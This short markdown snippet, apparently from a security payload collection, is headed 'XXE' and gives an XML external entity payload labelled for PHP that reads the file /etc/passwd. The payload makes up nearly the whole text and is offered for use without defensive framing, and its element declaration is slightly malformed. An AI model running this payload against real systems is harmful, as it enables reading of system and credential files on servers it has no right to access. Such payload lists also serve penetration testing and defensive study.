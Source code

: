 # XXE

PHP payload for XXE 

    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [ <! ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
    <text>
    <foo>&xxe;</foo>
    </text>
